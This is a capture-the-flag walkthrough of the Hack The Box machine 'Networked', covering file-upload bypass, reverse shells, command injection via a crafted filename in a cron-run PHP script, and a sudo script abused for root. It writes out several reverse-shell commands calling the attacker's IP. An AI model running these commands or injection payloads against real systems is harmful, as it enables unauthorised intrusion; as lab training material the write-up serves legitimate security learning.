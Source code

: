 ```yaml
---
layout: post
title: "Networked"
categories: HTB-Walkthrough
---
```



![networked](/assets/img/networked/networked1.png)


This box was 'Active' when I first compromised it, and in my rush to elevate my 'status' on HTB 
I was left with the nagging thought that I didn't fully understand why my privesc to root worked. I made a mental note to come back and have another look.

Nmap first:

```
nmap 10.10.10.146 -sV -Pn |tee -a net.txt
```

```

Nmap scan report for 10.10.10.146
Host is up (0.12s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
443/tcp closed https

```


<hr width="250" size="6">


Checking out the webserver on port 80 first.

There's a hint in the source:

![web](/assets/img/networked/net-web.png)



```
python3 /opt/dirsearch/dirsearch.py -u http://10.10.10.146/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -e .gif
```

![backup](/assets/img/networked/net-backup.png)


```
tar xvf backup.tar

index.php
lib.php
photos.php
upload.php

```

`http://10.10.10.146/upload.php`

![uploadphp](/assets/img/networked/net-uploadphp.png)


<h3>Exploit Upload Evil.php.gif</h3>

We should upload evil.php
Rename it evil.php.gif and preprend GIF89 to the top of the file.

Trigger it by browsing to:
```
http://10.10.10.146/photos.php
```

![photosphp](/assets/img/networked/net-photosphp.png)


```

listening on [any] 6969 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 33466
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:58:47 up  2:44,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ 

```

<hr width="250" size="6">



<h3>Privesc to Guly</h3>


There's an interesting php file in guly's home directory:



```php

cat check_attack.php

<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```


This line is vulnerable to a code injection:
```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

It will execute the removal of the file, but we can append a second command to the first which will be 
executed by `guly`.


Go to the /var/www/html/uploads/ folder.
guly's php script pulls from here, we can use `touch` to create a file and execute an additional command.


we cannot use the normal " nc 10.10.14.7 -e /bin/bash" command, so we need an alternative.


```
bash-4.2$ touch "test  && 10.10.14.7 9999 --sh-exec bash"
```

catch the shell on `nc -nlvp 9999`

![gulyshell](/assets/img/networked/net-gulyshell.png)


and get the user flag:

```shell

ls -la
total 28
drwxr-xr-x. 2 guly guly 159 Jul  9  2019 .
drwxr-xr-x. 3 root root  18 Jul  2  2019 ..
lrwxrwxrwx. 1 root root   9 Jul  2  2019 .bash_history -> /dev/null
-rw-r--r--. 1 guly guly  18 Oct 30  2018 .bash_logout
-rw-r--r--. 1 guly guly 193 Oct 30  2018 .bash_profile
-rw-r--r--. 1 guly guly 231 Oct 30  2018 .bashrc
-r--r--r--. 1 root root 782 Oct 30  2018 check_attack.php
-rw-r--r--  1 root root  44 Oct 30  2018 crontab.guly
-r--------. 1 guly guly  33 Oct 30  2018 user.txt                                                                  
-rw-------  1 guly guly 639 Jul  9  2019 .viminfo                                                                  
cat user.txt                                                                                                       
52xxxxxxxxxxxxxxxxxxxxxxxxxxxxc5  

```


<h3>Privesc to Root</h3>


sudo su fails, as expected but we can list sudo commands for `guly` with `sudo -l`.

![sudol](/assets/img/networked/net-sudol.png)


lets have a look at the file:

```shell

cat changename.sh

#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
y
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

```

This looks a bit dangerous. A bit like a 'Do It Yourself' `sudo su` command that can generate the shell of any user.



test it out:

run the file....
```
sudo /usr/local/sbin/changename.sh
```

then enter `sudo su` for everything......
get root shell.....

```shell

[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
sudo /usr/local/sbin/changename.sh
interface NAME:
sudo su
sudo su
interface PROXY_METHOD:
sudo su
sudo su
interface BROWSER_ONLY:
sudo su
sudo su
interface BOOTPROTO:
sudo su
sudo su
[root@networked network-scripts]# cat /root/root.txt
cat /root/root.txt
0axxxxxxxxxxxxxxxxxxxxxxxxxxxx82
[root@networked network-scripts]#

```

I guess it was executing `su` as root, either from the initial `sudo` executing the script,
or one of the entries in the 'user input' parts but I didn't stick around long enough to reason why, 
I just grabbed the flag and ran!

<h3>Revisited</h3>


I had intended to revisit this box to work out why my 'keyboard mashing' privesc worked...but I didnt; so when the box was retired I had a look at some write-ups for the box; [0xdf's writeup](https://0xdf.gitlab.io/2019/11/16/htb-networked.html) investigates
this last phenomenom, and finds that the script's regex sanitizes the first bit of text but executes what comes after the space.

so it executed the `su` after the space....so I could have typed `foo su` or 'foo /bin/sh' for just the first entry and got the same result.

revisiting the box, I confirm this:

![foosu](/assets/img/networked/net-foosu.png)


:)




